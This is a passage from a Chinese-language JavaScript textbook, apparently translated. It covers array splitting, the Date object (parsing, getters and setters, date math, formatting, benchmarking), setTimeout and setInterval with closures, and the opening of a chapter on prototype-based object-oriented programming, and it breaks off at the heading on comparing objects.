document.write( myArray.toString() ); // "David,John,Mike,Chris"
```

你还可以使用正则表达式从更复杂的模式匹配创建数组。你可以通过向 `split()` 传递正则表达式而不是字符串，来拆分段落中的句子：

```javascript
var myParagraph = "Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua! Ut enim ad minim veniam, quis nostrud? exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate. velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.";
var myArray = myParagraph.split(/[\.!?]/);
document.write(myArray.join("<br />")); // 这将输出几行...
```

这将输出根据 `.`、`!` 或 `?` 分隔的几行文本，表示句子的结束。

# Date 对象

虽然数据库和某些编程语言有多种涵盖日期时间主题的数据类型，但 JavaScript 只有一个：`Date`。你可以依靠它来存储精确到毫秒的时间值，或者在不同区域的日期之间进行转换。你可以使用它对代码进行基准测试，并将日期转换为几乎任何区域格式的字符串。正如你将看到的，`Date` 对象具有许多内置功能。你在这里将详细查看其中一些重要的功能，但在附录 B 中也可以找到所有日期特性的完整参考。

# Date 对象概述

日期是由全局 `Date` 对象实现的。`Date` 类包含以下成员：这些功能被所有日期继承。注意，并非所有功能在所有浏览器中可用。请查看附录 B 获取详细的兼容性信息。你创建的每个 `Date` 对象实例都包含完整的日历和精确到毫秒的时间值。当你创建一个空实例时，它反映了创建时的精确时刻。你可以使用这种技术在你的网页上显示当前日期和时间。`Date` 构造函数也足够快，你可以在应用程序中使用它来提供高速计时、同步，甚至是应用程序的基准测试。

# 创建日期

严格来说，JavaScript 中没有日期字面量格式。当你想要创建数据时，即使是在对象表示块中，你也使用它的构造函数和 `new` 关键字来获取对象引用。你也可以像对待原始值一样对待日期并对其进行数学运算。我稍后会描述这是如何工作的。`Date` 构造函数的语法可以描述如下：

```javascript
myDate = new Date();
myDate = new Date(milliseconds);
myDate = new Date(year, month, date [, hour, minute, second, millisecond ]);
myDate = new Date("Month dd, yyyy");
myDate = new Date("Month dd, yyyy hh:mm:ss");
```

在第一个示例中，你没有向构造函数传递任何参数。在这种情况下，你获得当前日期的日期值和精确到毫秒的时刻。在第二个示例中，你传递了一个毫秒数，代表自*1970 年 1 月 1 日 00:00:00 UTC*以来的毫秒数。当你为了基准测试和测量微小时间差异时，这特别有用。如果你需要知道，这里是各种时间单位的毫秒数：在第三个示例中（`new Date(year, month, date [, hour, minute, second, millisecond ])`），你传递代表日历和时间的数字。这里的时间值是可选的，如果留空将默认为本地时区的午。单数字时间值是可以接受的（例如 3:15:00），但小时*采用*24 小时制表示。

最后两个示例演示了你如何向构造函数传递字符串值，然后将其解析为日期值。这将接受任何可以有效传递给静态 `Date.parse()` 函数的值，我稍后会描述它。你可以用它来解析像 "Aug 15, 1997"（`new Date("Aug 15, 1997")`）或带有完整时区偏移（相对于格林威治时间）的字符串，例如 "Fri, 02 Jan 1970 00:00:00 GMT-0400."。

`Date` 对象还支持许多方法来表示相对于 UTC（称为格林威治时间或 GMT）的日历值。这被称为*世界时间标准*。当你程序中创建日期时，它们总是根据用户的本地时区表示，并可以计算为相对于 UTC 的偏移。`Date` 对象的另一个方面是，像字符串和数字一样，它们包含一个可以用于构建日期的原始值。`Date` 对象的原始值是自 "1970 年 1 月 1 日 00:00:00 UTC" 以来的毫秒数。在表达式中使用日期对象时，JavaScript 会自动在你的日期对象和原始值之间来转换，但你可以通过对日期实例使用 `valueOf()` 方法来显式提取原始值：

```javascript
var myDate = new Date();
var myMSValue = myDate.valueOf();
document.write(myMSValue); // "1232736958879"
```

`valueOf()` 方法本质上与 `getTime()` 方法相同。因为日期本身没有字面量语法，所以在对象表示中描述日期值时，请使用构造函数：

```javascript
var myObj = {myDate: new Date()};
```

这是我在第 21 章中详细讨论的内容。**在 Netscape 和 Internet Explorer 早期，Date 对象深受严重 Bug 和稳定性问题的困扰。**在 Netscape 3 之前，Date 对象基本上不可用。在 Internet Explorer 3 中，你无法创建 1970 年 1 月 1 日（GMT）之前的日期，也没有办法计算时区偏移。Netscape 的 Windows 和 Mac 版本在版本 6 之前存在差异，特别是与时区有关。如今，很少需要担心比 Explorer 5.5 或 Firefox 1 旧的用户。如果你相当确定你的用户使用的是较新的浏览器（Internet Explorer 5.5+、Navigator 6+、Firefox 1+、Safari、Opera 7+ 或 Chrome），那么日期操作应该相对没有问题的。

# 世界时间概述

由于时区、夏令时间等复杂的复杂性，理解世界时间的概念有时非常棘手。正如你所知道的，地球被划分为许多概念上的切片，用来表示当地时间相对于英国格林威治（读作 "grennitch"）时钟的差异。`格林威治标准时间`（`GMT`）是一项国际协议，构想于 19 世纪 50 年代海运繁荣时期。英国船员会在船上至少保留一个设置为 `GMT` 的计时器，以便他们能够准确计算出自己在地球上的位置。

如今，时区允许我们同步全球范围内的当前时间，并考虑到地球绕其轴旋转时产生的昼夜循环偏移。这是一个不完美的系统，由于在一年中，各个地区有时会根据季节获得的阳光量，选择向任一方向调整一小时左右的时钟，这使得系统变得更加复杂。

最近，`GMT` 的概念被重新评估并更名为`协调世界时`（`UTC`）。`GMT` 和 `UTC` 本质上是相同的，这两个缩写有时互换使用。如果你位于远离格林威治的某个地区，且时钟偏移为负八小时，那么你的时间被称为"GMT-0800"。如果你直接位于格林威治经线上，你被处于"GMT-0000"——换句话说，你处于 `UTC`。格林威治的任何时间始终都是 `UTC` 时间，你可以将其作为比较和计算本地时间差异的依据。

作为软件用户，一旦有人将你的 PC 时钟设置为正确的本地时间和区域设置，你计算机上的所有软件都会开始将该值用作实际时间。你的 `JavaScript` 程序也是如此。`JavaScript` 解释器不仅可以读取本地时间，还可以读取时区。它可以用 `UTC`（无论现在格林威治是几点）或一个带有内置 `GMT` 偏移的时间来表示当前时间——这样开发者就可以自己判断该时间与服务器或任何其他位置显示的时间相比如何。

在为他人编写应用程序时，这一点尤为关键，因为你经常需要依赖时间戳来处理用户提交的数据或传输对时间敏感的信息。例如，如果没有 `GMT` 计算，将很难向用户说明网络研讨会或会议何时开始，或者计划中的维护何时发生。此外，在用户数据时，将任何时间值以 `UTC` 表达也至关重要，以避免日后的混淆。

最难理解的可能是，当你编写程序时，倾向于认为这些日期值是绝对的，并且与服务器端提供的日期保持同步。遗憾的是，一旦你部署了应用程序，有时会看到与服务器或本地时间不同步的日期值。如果你至少注意本地与 `UTC` 之间的区别，这可能会成为错误的主要来源。作为一个实验，下次你测试 Web 应用时——尝试更改你的区域设置和系统时钟，看看会出现任何任何时间的问题。幸运的是，`JavaScript` 提供了一些非常简单的方法在本地和 `UTC` 之间进行转换。你可以轻松地将时间字面量关联到特定时区或通用时间。我将在下一节讨论如何实现这一点。

# 解析日期字符串

你已经知道可以将日期字符串传递给 `Date` 对象的构造函数，并返回一个带有这些值的有效日期对象，但如果你只需要该字符串的原始值，可以使用静态方法 `Date.parse()`。我所说的 `static` 指的是它是 `Date` 对象本身上可用的，而不是每个日期实例。所谓 `primitive`（原始）是指自″1970 年 1 月 1 日 00:00:00 UTC″以来的毫秒数。例如：

```javascript
// 如果我们在太平洋时间 (GMT-0800)，这将返回 1036051200000
//但在不同的时区下会返回其他值。这是因为
// 字符串中没有指定时区
document.write( Date.parse("Oct 31, 2002") + "<br />" );
```

当你只提供日期字符串的一部分（不带时间和时间和时区值）时，`JavaScript` 会在当前时区用零“填充”剩余部分。解析器也足够智能可以接受不同的日期字符串；然而，你无法为日期字符串`指定` 特定的语法。以下是一些额外的有效日期及其返回值：

```javascript
// 无论用户的时区如何，均返回 1028851200000
document.write( Date.parse("Fri, 09 Aug 2002 00:00:00 GMT") + "<br />" );

// 在 GMT-0800 时区下返回 1028876400000，但在其他时区不同
document.write( Date.parse("Fri, 09 Aug 2002 00:00:00") + "<br />" );

// 无论时区如何，均返回 0
document.write( Date.parse("Thu, 01 Jan 1970 00:00:00 GMT") + "<br />" );

// 无论时区如何，均返回 28800000
document.write( Date.parse("Thu, 01 Jan 1970 00:00:00 GMT-0800") + "<br />" );
```

日期和时间规范实现了用于解析字符串的 IETF 标准（在 [http://tools.ietf.org/html/rfc1123#section-5.2.14] 中描述）。在所有现代浏览器中，日期的解析方式通常相同，但早版本的 `JavaScript` 在这方面存在许多 Bug 和不一致之处。

通常，短日期可以使用 "/" 或 "-" 日期分隔符，但必须是 月/日/年（例如 8/24/2007）。较长的日期可以使用全称月份（即"January"）或简写月份（即"Jan"），且年、月、日可以以任何顺序出现，年份可以是两位或四位数。当使用两位数时，年份必须大于或等于 70。通常情况下，建议年份使用 4 位的长格式以避免解析错误。

括号内的任何无关文本都会被视为注释并忽略（例如 `new Date("1 Jan (yup!) 2007")`）。然而，逗号和空格被同视为分隔符，可以接受多个分隔符。

如果提供了月份和日期的名称，它们的长度必须为两个或更多字母。不唯一的两个字母名称（例如"Ju" 匹配"July" 和"June"）会引起混淆，并可能无法解析为正确的月份。如果你提供了星期几（例如"Friday December 3, 2005"），如果它根据你提供的其他数据来说是错误的，它将被忽略。相反，将插入正确的星期。

在提供时间值时，用冒号分隔值，但记住并不是所有时间值都是需要的。例如，有效的时间值包括"11:10:01"、"11:10" 和"11:"。如果你使用 24 小时制（默认设置），不要指定"PM" 或"AM"。

当你使用 `Date.parse()` 并传递无效日期时，你将得到 `NaN` 作为响应。使用构造函数时，你将得到一个"Invalid Date"异常。

# 读取和写入日期

一旦你有了正确的日期对象，就有许多方法可以从原始值中提取详细信息，例如小时或分钟值（使用 `getHours()` 或 `getMinutes()`），或者你也可以通过 `setHours()` 或 `setMinutes()` 等方法调用直接设置它们。这些属性的完整 getter 和 setter 包含：


## 设置和获取日期与时间值

快速浏览上方的表格，你就可以很容易看出如何使用各种 getter 和 setter 来调整你的日期和时间值。如果你还没有完全掌握 UTC 和本地时间之间的区别，需要注意的一点是：你不应该将调用 UTC 的 getter 和 setter（如 `setUTCHours()`）与本地化的 getter 和 setter（如 `setHours()`）混合使用，因为生成的日期值彼此之间将看起来不一致。通常情况下，使用本地化的 getter 和 setter 是很有用的。如果你需要将本地日期值与数据库等外部源传输或同步，请在那个点将其转换为 UTC。让我们创建一个日期对象并操作它的一些值：

```javascript
var myDate = new Date("Oct 31, 2002");
myDate.setFullYear(3001);
document.write("Day of the week in 3001: " + myDate.getDay() + "<br />");
// 6 (周五)

// 比较本地时间和 UTC 时间：
document.write("Local hours: " + myDate.getHours() + ", UTC hour: " +
myDate.getUTCHours());
// 在我的情况下，这是: "Local hours: 0, UTC hour: 8"
```

正如预期的那样，你能够使用其 setter *仅*操作日期的年份部分，并看到你的本地时间 (PDT) 和 UTC 之间的差异，时间为 8 小时。这些方法让操作日期变得极其简单。

## 日期数学

在日期值上执行数学运算也非常直接。你可以使用内置的比较运算符 `>`（大于）和 `<`（小于）来比较日期和时间值。当你执行此操作时，JavaScript 会自动将日期对象转换为原始值：

```javascript
var Halloween = new Date("Oct 31, 2009");
var AprilFools = new Date("Apr 1, 2009");
document.write(Halloween > AprilFools);  // true
```

检查相等性稍微不同。由于日期是对象，你不能使用相等运算符。例如，以下操作将始终失败，尽管这些日期*确实*是相同的：

```javascript
// 创建两个完全相同的日期
var Halloween = new Date("Oct 31, 2009 UTC");
var Halloween2 = new Date(Halloween.valueOf());

// 输出日期以确保它们是相同的
document.write("Halloween: " + Halloween.toString() + ", Halloween2: " +
Halloween2.toString() + "<br />");
// 对于我：Halloween: Fri Oct 31 2009 17:00:00 GMT-0700 (PDT), Halloween2:
// Fri Oct 31 2009 17:00:00 GMT-0700 (PDT)

// 这将会失败..你不能这样测试
document.write(Halloween == Halloween2 + "<br />");   // false
```

在这里你创建了两个完全相同的日期，但当你使用相等运算符测试等效性时，它报告为 false！正如我说的，日期是对象，你*真正*需要比较的是原始值。为了实现这一点，你可以使用 `getTime()` 方法或 `valueOf()` 方法，它们都返回自 UTC 1970 年 1 月 1 日 00:00:00 以来来的毫秒数。你可以这样重写你的比较逻辑，使其比较这个原始值而不是对象引用：

```javascript
// 比较原始值而不是对象引用
document.write(Halloween.valueOf() == Halloween2.valueOf());    // true
```

通过 getter 和 setter 可以实现日期的值加减。首先，你获取日期的原始值，加上或减去适当的毫秒数，然后将该新值表示为日期。假设你想查看万圣节 30 天后是哪一天：

```javascript
// 创建两个完全相同的日期
Halloween = new Date("Oct 31, 2009 UTC");
var dayValue = (1000*60*60*24); // 一天的毫秒数
// 为我们的日期增加 30 天
Halloween.setTime( Halloween.getTime() + (dayValue*30) );
// 输出结果
document.write(Halloween.toString());
// 对于我：Sun Nov 29 2009 16:00:00 GMT-0800 (PST)
```

同样的方法可以应用于任何日期操作。第一步是确定你想从日期中增加或删除的单位所包含的毫秒数。有时你的目标是找出 "x" 个月后是哪一个日期，但这些月份中的准确天数实际上取决于它们是哪几个月份。在这种情况下，你需要在开始任意更改毫秒值之前查明。这实际上很容易做到，不需要维护闰年表等，只需依靠 `Date` 构造函数的一个允许*溢出*值的特性。例如，如果你创建一个指定某月份有 40 天的日期，它将给你一个考虑了溢出的下个月日期。你可以利用此来确定你想知道的月份的实际天数。困惑？看看这个示例函数，你就会明白它是如何工作的：

```javascript
function daysInMonth(iMonth, iYear) {
  // 从 32 中减去溢出部分
  return 32 - new Date(iYear, iMonth, 32).getDate();
}
document.write( daysInMonth(1,3000) ); // 28
```

`daysInMonth()` 函数从 32 中减去任何给定月份溢出的 32 天，得到你想要的天数。在示例的最后一行，你确定了 3000 年 2 月的天数 (28)，这表明 3000 年不是闰年。

## 打印日期字符串

你偶尔可能想做的另一件事是以格式化字符串的形式将日期值写到页面上。当你向页面输出一个日期时，JavaScript 会自动对该对象应用 `toString()` 方法，给你 `toString()` 输出的任何内容，它是描述性的，但不是人类在查看日期时可能期望看到的：

```javascript
document.write( new Date() );
// 在我的情况下："Sat Jan 24 2009 11:54:18 GMT-0800 (PST)"
```

确切输出取决于浏览器和操作系统，更不用说你的区域设置。可以确定，这种显示方式会有很多差异。你可以通过创建自己的日期格式化方法来某种程度上控制它：

```javascript
Date.prototype.quickDate = function() {
    return (this.getMonth()+1) + "/" + this.getDate() + "/" + this.getFullYear();
}
document.write( (new Date()).quickDate() ); // 1/6/2009
```

还有几个内置方法可以产生“标准化的”格式化日期。例如，`toGMTString()` 使用 GMT 时间生成日期字符串：例如 "Mon, 24 Jan 1910 17:43:55 GMT"。另一个方法 `toLocaleString()` 使用浏览器的本地区域约定输出一个漂亮的日期字符串（例如 "Mon Jan 24 09:43:55 1910"）。同样，`toLocaleDateString()` 和 `toLocaleTimeString()` 执行相同的操作，但分别作用于字符串的日期部分或时间部分。这些方法仅适用于较新的浏览器（IE 5.5+ 和 Firefox 1+）。

# 测量时间差

使用 `Date` 对象来测量微小变化是一种常见做法，特别是用于测量性能或同步动画。由于日期的原始值是自 UTC 1970 年 1 月 1 日 00:00:00 以来来的毫秒数，你可以测量到 1/1000 秒的时间差。以这个简单的日期比较为例：

```javascript
var Halloween = new Date("Oct 31, 2009");
var NextDay = new Date("Nov 1, 2009 11:32:11");
document.write( (NextDay-Halloween) + " milliseconds"); // 131531000 milliseconds
```

在此基础上，如果你想对应用程序部分进行基准测试，你可以在过程中创建新的日期对象并在最后测量差异：

```javascript
var startingTime = new Date();
// 完成一个无意义但计算密集型的循环
for (var i = 0; i < 900000; i++, Math.sin(i)*Math.cos(i));
var endingTime = new Date();
document.write("Time to complete the operation: " + (endingTime-startingTime) + "ms");
// 完成操作的时间: 210ms
```

这可以成为应用程序页面基准测试的一个非常快速且实用的工具，也是专业人士经常使用的，但如果需要更强大的基准测试工具，请查看第 25 章中基准测试的章节。

# 定时器间隔

定时器是 JavaScript 中一个密切相关的特性，尽管它们并不属于 `Date` 对象的一部分。定时器允许你在精确的延迟后或按固定间隔执行代码。实现此用点的两个函数是 `setTimeout()` 和 `setInterval()`。

其中第一个 `setTimeout()` 允许你在特定的一段时间运行后执行一段代码。它的语法如下：

```
var timerReference = window.setTimeout(codeOrFunc, delayMS);
```

`setTimeout()` 函数实际上是浏览器中全局对象的成员，通常在非基于浏览器的 JavaScript 运行时（如 `Jscript.NET`）中没有实现。大多数实现都期望两个参数。第一个参数（`codeOrFunc`）是一个包含要执行的 JavaScript 代码的字符串或函数引用。第二个参数是以毫秒为单位的延迟因子。在 Internet Explorer 的早期版本中（5.5 之前），`codeOrFunc` 参数必须是字符串，但现在最佳实践是使用匿名函数来代替必须经过 `eval()` 的 JavaScript 代码。

在深入研究定时器和伪线程（我将在第 17 章中讨论）的世界时，重要的是要理解 JavaScript 从根本上是单线程的。你所有的源代码都是按顺序执行的，绝不会出现定时器在另一个正在执行的函数中间触发的情况。事实上，如果解释器在定时器应该触发时正忙，它将一直等待直到不再忙为止才触发——这会导致你的代码延迟执行。你永远无法依赖定时器在你需要它们的时候恰好执行，因此当你将它们用于动画时，你需要调整你的观念：`delayMS` 参数最多只是一个解释器将尝试达到的粗略目标。它永远不会提前，但通常往往会晚到。

在第 17 章中，我将更多地讨论伪线程。这些基本上是解释器随时间运行的执行路径，在此期间，用户可以继续与页面和其他事件进行交互，代码可以继续不受阻地运行。你使用 `setTimeout()` 和 `setInterval()` 函数作为所有此类“线程”行为的基石，包括（尤其是）动画。

不过回到主题，让我们创建一个在 10 秒后触发的定时器对象：

```javascript
// 创建一个 10 秒后出现的警框框
var myTimerObj = setTimeout(function(){ alert('Hello!'); }, 10000);
```

请注意，在浏览器中，`setTimeout()` 是全局上下文的成员，它恰好是 `window` 对象。如果你不想，不需要调用 `window.setTimeout()`，但带有或不带 window 都是接受的。

如果你想在定时器完成之前停止它，可以使用 `clearTimeout()` 函数。它接受一个参数，即定时器对象的句柄（在这种情况下为 `myTimerObj`）。例如：

```javascript
// 取消定时器
clearTimeout(myTimerObj);
```

你可以对同一个定时器引用多次调用 `clearTimeout()` 而不必担心，即使它已经停止——尽管只需要调用一次即可取消它。

如果你不是使用单次定时器，而是想定期地执行某些操作，可以使用 `setInterval()`。`setInterval()` 的语法类似：

```
var intervalReference = window.setInterval(codeOrFunc, delayMS);
```

如你所示，语法几乎是一样的。要清除间隔对象，使用相应的 `clearInterval()` 方法：

```javascript
// 每 10 秒显示一个警框
var myIntervalObj = setInterval(function(){ alert('Hello!'); }, 10000);
// 取消它
clearInterval(myIntervalObj);
```

同样，你使用匿名函数来执行你的 `alert()` 语句。你也可以使用字符串（例如 `setInterval("alert('Hello!')", 10000)`），但由于附录 D 中描述的许多原因，你应该选择不使用被评估的代码。但是，如果你想给你的代码块传递参数呢？你可能会奇怪你应该如何这样做。在下一节中，我将向你展示使用闭包和定时器管理参数的正确方法。

## 闭包与定时器

在附录 D 中，我讨论了闭包的不同角色，以及你如何使用它们来传递离散的功能块，而无需使用 `eval()` 函数。在之前的 `setTimeout()` 示例中，我使用匿名函数来描述定时器触发时将发生的活动。这里是另一个在定时器中使用匿名函数的例子：

```javascript
// 定时器内部简单的匿名函数
// 这将在 1 秒后执行
setTimeout(function() {
    alert("Hi");
}, 1000);
```

假设，你想引用匿名函数作用域之外的一些变量。例如，如果你正在从一个包含多个报警信息的数组中设置某些闹钟，你将希望传递数组中节点的引用。现在，因为匿名函数可以访问 `setTimeout()` 函数所在任何地方的作用域，你应该能够直接访问该节点：

```javascript
var alarmArray = [
  {time: 5000, description: "给 Lara 打电话."},
  {time: 15000, description: "喂猫."},
  {time: 25000, description: "在 Fox 上看 Fringe。"}
];

setTimeout( function() {
  alert(alarmArray[0].description);
}, alarmArray[0].time);
```

五秒后，你将看到[图 9-3] 中的内容。引用外部变量很容易，但如果在你创建定时器到它实际触发之间，该变量发生了什么呢？例如，如果你像之前指示那样遍历 `alarmArray[]`，会发生什么？

```javascript
for (var i = 0; i < alarmArray.length; i++) {
    setTimeout( function() {
        alert(alarmArray[i].description);
    }, alarmArray[i].time);
}
```

对于循环的每次迭代，你都创建一个引用 `alarmArray[i]` 的闭包。不幸的是，发生的情况是，当第一个闹钟触发时，`i` 已经等于 "3"，从而导致错误：`alarmArray[i]` 是未定义的。你如何在时间上“冻结”这些变量，以便当你的定时器最终触发时，它们可以访问预定的数据？

答案是借用函数工厂模式（附录 D 中引用），为这些变量创建一个新的上下文，在上下文中它们永远不会被修改：

```javascript
for (var i = 0; i < alarmArray.length; i++) {
    setTimeout( function(a) {
        return function() {
            alert(alarmArray[a].description);
        }
    }(i), alarmArray[i].time);
}
```

你不是直接将函数引用传递给 `setTimeout()`，而是执行了一个匿名函数，该函数反过来返回一个函数引用（实际上是一个闭包），该引用引用内部变量 `a` 而不是局部变量 `i`。如果你读过附录 D，你将知道当从函数返回闭包时，JavaScript 会维护所有传递给函数的参数的记录——专门为了应对这种情况。

如果你想对其进行重构使其不那么杂乱，你甚至可以使用外部函数：

```javascript
// 另一种：
function goAlarm(a) {
  return function() {
    alert(alarmArray[a].description);
  }
}

// 现在再次遍历它们，但执行 goAlarm() 函数而不是匿名函数
for (var i = 0; i < alarmArray.length; i++) {
  setTimeout( goAlarm(i), alarmArray[i].time);
}
```

## 总结

在本章中，我完成了对最后两种核心数据类型的讨论：`Array` 和 `Date`。特别地，你学习了以下内容：

- `Arrays` 是既有构造函数又有字面量格式的对象。
- 你拥有极大的自由来混合数据类型，并动态修改数组的大小和维度。
- 可靠地检测数组有些棘手，但可以通过使用 Miller 方法和简单的字符串比较来实现。
- 使用 `length` 属性遍历索引数组是很容易，但对于关联数组（associative arrays），你必须使用 `for .. in` 迭代器。
- 键值对（哈希表）通过 `Object` 对象表示为最好，而不是 `Array` 实例。
- `Date` 和时间值由 `Date` 对象表示。
- 现代 JavaScript 日期通过一套详尽的本地和 GMT 调整访问器函数来遵循世界时间。
- `Date` 对象还可以用于测量微小时间差异，低至 1/1000 秒（毫秒），这对我们的代码片段进行基准测试特别有用。
- `setTimeout()` 和 `setInterval()` 函数与日期配合使用，提供程序代码的延迟执行。
- `clearTimeout()` 和 `clearInterval()` 函数允许你取消特定的定时器实例。
- 你可以使用闭包通过 `function-factory` 模式安全地向定时器传递参数。

在下一章中，我将再次深入研究面向对象编程主题，以及这一概念如何应用于现代 JavaScript。

## 面向对象开发

泛而言，`object oriented development` 是一种编程范式，它使用对象的隐喻将数据和行为表示为离散的结构。这是许多现代语言采用的编程风格，如 `Java`、`C#`、`C++`、`Ruby`、`Python`、`Perl`、`PHP`、`ColdFusion` 等。在书中已经介绍了一些面向对象（OO）原则。`objects`（对象）、`classes`（类）、`instances`（实例）、`methods`（方法）、`properties`（属性）和 `inheritance`（继承）等术语都属于这个范围。如果你做过任何 JavaScript 编程，可能已经在使用这些原则了，所以从某种意义上说，在 JavaScript 中讨论面向对象编程原则有点多此一举。语言的本质和文档对象模型（DOM）在设计上就是面向对象的。

在本章中，我展示了 OO 编程原则的横截面以及它们具体如何应用于 JavaScript。你还将查看程序员在应用这些原则时遇到的一些常见困难，例如如何扩展类、创建公共与私有方法，或克隆对象。

# 面向对象 JavaScript

如果你来自 `Java` 的世界，你可能期望 JavaScript 与你熟悉的东西相似，即一种经典的面向对象语言。但你发现的是一个完全不同的物种。例如，经常当我谈论 JavaScript 中的对象时，我会说某个特定对象 `inherits`（继承）另一个对象的特性。例如，你在 JavaScript 中创建的所有对象都继承自 `Object` 类，这意味着它们获得了所有属于该 `class` 的方法和属性——实际上它们通过添加新功能来 `extend`（扩展）`Object` 类。在经典的 OO 中，每个对象都由类定义，类充当了蓝图的角色。`class` 一词借用自 `Java` 等经典的 OO 语言，但在 JavaScript 中并没有意义上的类。相反，它使用一种不同的继承方式——`prototypes`（原型）。事实上，原型风格的 OO 根本不涉及类。通过类实现的行为复用是通过通过 `cloning`（克隆）作为其他对象 `prototypes` 的现有对象来实现的。如果你正在扫描这一章以回答“我如何定义类？”这个问题，那里没有简单的答案。

然而，开发者使用了一些技术来 `simulate`（模拟）经典 OO 的行为，我很快就会提到这些。在本章的剩余部分，当对象在功能上充当类的角色时，我有时会将对象称为类——尽管为此目的并没有特殊的对象类型。

`Java` 的经典惯用法与原型 JavaScript 之间存在许多其他差异。例如，在 `Java` 中事物是强类型的，而 JavaScript 是松弛类型的。另一个例子可能是 `Java` 中的类定义可能像这样：

```java
public class widget {}
```

但在 JavaScript 中，你拥有：

```javascript
function widget() {}
```

在 `Java` 中，你有适当的构造函数：

```java
public class widget {
    public widget() {}
}
```

但在 JavaScript 中，你仍然只有：

```javascript
function widget() {}
```

在 `Java` 中，你可以这样定义实例方法：

```java
public class widget {
    public widget() {}
    public void go() {}
}
```

在 JavaScript 中，你这样做：

```javascript
widget.prototype.go = function() {}
```

在 `Java` 中，你可以通过 `extending`（扩展）某个东西来子类：

```java
public class doodad extends widget {}
```

在 JavaScript 中，你必须在原型之上构建：

```javascript
doodad.prototype = new widget()
```

这些差异不应削弱原型继承或 JavaScript 本身的威力。事实上，你使用原型可以几乎实现任何你在经典语言中可以做到的任何事情——这包括继承以及对象上的公共、私有和静态方法。

在继续之前，我将澄清另外几个关于类以及它们如何应用于 JavaScript 的基本概念：

- 简单来说，`classes` 是作为创建对象的蓝图的结构。在 JavaScript 中，由于没有 `per-se`（本身）的类，对象充当其他对象的原型——所以我有时会将特定对象称为类，尽管它们实际上并非如此。
- 对象通常有三个主要部分：构造函数、方法和属性。
- 当你 `initialize`（初始化）一个对象时，会调用构造函数。它们可能会设置一些属性（或不设置）。有时它们除了创建该特定类的实例之外，什么都不做。
- 方法是属于类实例的离散代码段。如果你以动物为模型建立一个类，那么该对象的方法可能是 `run()` 或 `eat()`。在 JavaScript 中，方法实际上只是 `Function` 的实例，但你仍然可以像方法方法方法。
- 属性是属于类的数据片段。再次使用我们的动物类比，这样的类可能有像 `age`（年龄）或 `genus`（属）之类的属性。JavaScript 也支持属性。

# 创建对象

JavaScript 中的对象可以像其他语言一样被创建和销毁。实例化对象的方法有两种。你例如创建日期时已经看过了 `new` 关键字：

```javascript
var myDate = new Date();
```

如果你想从 `Object` 类本身创建一个通用对象，它也适用：

```javascript
var myGeneric = new Object();
```

你还可以使用对象字面量表示法创建一个通用对象，你在之前的章节中已经见过：

```javascript
var anotherGeneric = {};
var generic2withproperties = { name: "Generic Object", purpose: "just for fun", cool: true};
```

然而，当你想要实例化你的 `own` 对象类型时，必须使用 `new` 运算符。

# 删除属性和对象

虽然不需要专门删除对象来释放内存（至少在较新版本的 `JScript` 或 JavaScript 中），但你可以通过将其设置为 `null` 或使用 `delete` 关键字来本质上 `delete` 对象并让它们垃圾回收。`delete` 的语法为：

```javascript
delete varName
delete object.property
delete object["property"]
delete object[index]
delete property // 仅在使用 with 语句时
```

你可以用它删除单个属性：

```javascript
myObject = {name:'jimmy', age:12, height:123}
delete myObject["jimmy"];
delete myObject.age;
with (myObject) {
    delete height;
}
```

它也可以用于删除整个对象：

```javascript
myObject = new Object();
delete myObject;
myObj2 = {};
myObj2 = null;
```

然而，在后一种情况下，标识符 `myObj2` 仍然存在，但指向对象本身的引用已被销毁，该对象将在垃圾回收器的下一次扫描中被清理。

# 作为引用类型的对象

在第 3 章中，我提到对象是引用类型的观点——因此，当你对它们进行复制时，你实际上只是复制了指向该对象的 `references`。这对于 `Date`、`Array`、`Function`、`Error` 和 `RegExp` 等所有引用类型都是如此，对于自定义对象也是如此。当你复制一个对象并修改原始对象时，就可以发现这一点：

```javascript
var myAlarm = {time: 5000, description: "Call Lara."};

// 现在将该对象赋值给一个新的标识符
var myAlarm2 = myAlarm;

// 并修改原始对象
myAlarm.time = 100;

// 检查我们的标识符是否也发生了变化
document.write("myAlarm2.time: " + myAlarm2.time ); // 100
```

当你写出 `copy` 的 `time` 属性时，你会发现它继承了原始对象的 `time` 值。这是因为它们都指向内存中的同一个对象。这是一个非常重要的概念，因为它解释了为什么很难创建对象的副本或直接比较对象，因为当你询问 `myAlarm == myAlarm2` 时，你所做的只是检查 `myAlarm` 中包含的 `reference` 是否等于 `myAlarm2` 中的 `reference`。幸运的是，你可以像遍历数组一样遍历对象的属性——你现在就要这么做。

# 作为数组的对象

在 JavaScript 中，对象几乎可以像数组一样互换处理。你可以像访问哈希表中的键/值对一样访问对象的成员（方法 *methods* 或 属性 *properties*）：

```javascript
var myObject = { property1:234 };

// 我们可以使用点符号访问属性：
document.write( myObject.property1 + "<br />" );   // "234"

// 我们也可以使用数组表示法访问它：
document.write( myObject["property1"] + "<br />" );   // "234"
```

同样，你可以使用这两种方法在对象上创建新属性：

```javascript
myObject["newProperty"] = "Hello World";
```

注意，当将函数作为哈希表的成员引用时，甚至可以在对象上执行函数：

```javascript
myObject["myFunction"] = function() { document.write("It worked! <br />"); };
myObject["myFunction"]();    // "It worked!"
myObject.myFunction();    // "It worked!"
```

全局对象也可以被视为数组，如示例所示：

```javascript
// 现在在全局作用域创建一个函数。
function myGlobalFunction() {
    document.write("The global object is like any other!");
}

// .. 并将 window 作为哈希表测试：
window["myGlobalFunction"](); // "The global object is like any other!"
```

正如第 9 章讨论，你可以使用 `for .. in` 迭代器遍历哈希表（或 `associative array`）的属性。对于 JavaScript 中的每一个对象都适用，包括全局对象和 DOM 节点。

```javascript
// 让我们创建一个具有几个属性的对象
var myNewObject = { property1:213, property2: true, property3: "Hello World"};

// 现在我们遍历对象的成员
// 注意，在这种情况下 "key" 是属性名，myNewObject[key] 是值
for (key in myNewObject) {
    document.write("myNewObject." + key + ": " + myNewObject[key] + "<br />" );
}
```

对于对象的每个成员，`key` 等于属性 `name`，因此 `myNewObject[key]` 返回该成员的值。这生成了以下输出：

```text
myNewObject.property1: 213
myNewObject.property2: true
myNewObject.property3: Hello World
```

你可以使用这种技术来遍历对象，以便比较、显示或复制它们。

# 比较对象

